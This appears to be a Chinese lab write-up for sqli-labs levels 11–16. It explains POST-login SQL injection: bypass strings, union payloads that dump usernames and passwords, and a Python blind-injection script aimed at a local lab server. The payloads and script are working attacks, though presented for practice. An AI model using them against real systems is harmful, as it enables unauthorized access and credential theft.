

一、Introduction
从Less-11开始就是使用post请求的登录了，一般场景模式设置为登录，我使用的工具是postman,谷歌的一个插件也可以下载为本地的一个软件，还是很不错的
二、hack
Less-11
先试试万能密码//一下的payload都是对于username的输入，密码框暂时可以随意输入2
admin ' or 1=1#发现登录成功了

然后查看字段数目和显示位
1' order by 3 # //登录后报错
1' union select 1,2 # //两个登录位然后可以使用任意一个登录位来爆数据库
1' union select 1,group_concat(schema_name) from information_schema.schemata#
然后爆数据表名，字段名，和第一题差不多了
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
123' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
111' union select group_concat(username),group_concat(password) from users #Less-12
通过尝试和报错信息发现输入1”) or 1 #后可以用万能密码登录，接下来同上
1") union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
1") union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
1") union select group_concat(username),group_concat(password) from users #Less-13
万能密码测试发现
1') or 1#能登录成功，但是不回显，所以可以布尔注入或者时间盲注 ，我们发现登录成功出现的照片名字叫flag.jpg,而登录失败叫slap.jpg，所以可以通过这个线索来爆破
#!/usr/bin/env python
# encoding:utf8
import requests
import time
import sys
# config-start
sleep_time = 5
error_time = 1
# config-end
def getPayload(indexOfResult, indexOfChar, mid):
# admin' or ()--
column_name="schema_name"
table_name="schemata"
database_name="information_schema"
payload = "((ascii(substring((select " + column_name + " from " + database_name + "." + table_name + " limit " + indexOfResult + ",1)," + indexOfChar + ",1)))>" + mid + ")"
payload = {"uname":"')or (" + payload + ")-- ","passwd":"admin"}
return payload
def exce(indexOfResult,indexOfChar,mid):
# content-start
url = "http://192.168.1.140/sqli-labs-master/Less-13/"
postData = getPayload(indexOfResult,indexOfChar,mid)
content = requests.post(url, data=postData).text
# content-end
# judge-start
if "<img src=\"../images/flag.jpg\" />" in content:
return True
else:
return False
# judge-end
def doubleSearch(indexOfResult,indexOfChar,left_number, right_number):
while left_number < right_number:
mid = int((left_number + right_number) / 2)
if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
left_number = mid
else:
right_number = mid
if left_number == right_number - 1:
if exce(str(indexOfResult),str(indexOfChar + 1),str(mid)):
mid += 1
break
else:
break
return chr(mid)
def search():
for i in range(32): # 需要遍历的查询结果的数量
counter = 0
for j in range(32): # 结果的长度
counter += 1
temp = doubleSearch(i, j, 0, 128) # 从255开始查询
if ord(temp) == 1: # 当为1的时候说明已经查询结束
break
sys.stdout.write(temp)
sys.stdout.flush()
if counter == 1: # 当结果集的所有行都被遍历后退出
break
sys.stdout.write("\r\n")
sys.stdout.flush()
search()
Less-14
与13题差不多 把') 改为 "即可
1" or 1=1#登录成功不回显，魔改上面脚本即可
Less-15
与13题差不多 把') 改为'即可
1' or 1=1#登录成功不回显，魔改上面脚本即可
Less-16
与13题差不多 把') 改为")即可
1") or 1=1#登录成功不回显，魔改上面脚本即可